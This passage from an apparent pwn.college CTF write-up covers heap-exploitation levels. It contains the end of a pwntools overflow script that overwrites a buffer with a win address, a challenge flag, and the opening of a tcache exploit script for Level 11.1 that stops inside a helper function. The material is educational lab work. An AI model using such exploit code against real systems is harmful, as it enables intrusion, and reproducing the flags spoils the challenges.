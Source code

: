 ```python
    target.success(f"win: {hex(win)}")

    payload = flat(
        b"A" * 0x10,
        win,
    )
    # raw_input("DEBUG")
    scanf(0, payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{UR1cj-fm89XIenUymGEuLXjbqDw.0VM5MDL5cTNxgzW}`]

# Level 11.1

## Information

- Category: Pwn

## Description

> Leverage TCACHE exploits to gain control flow.

## Write-up

参见 [Level 11.0](#level-110)。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    p64,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level11.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
```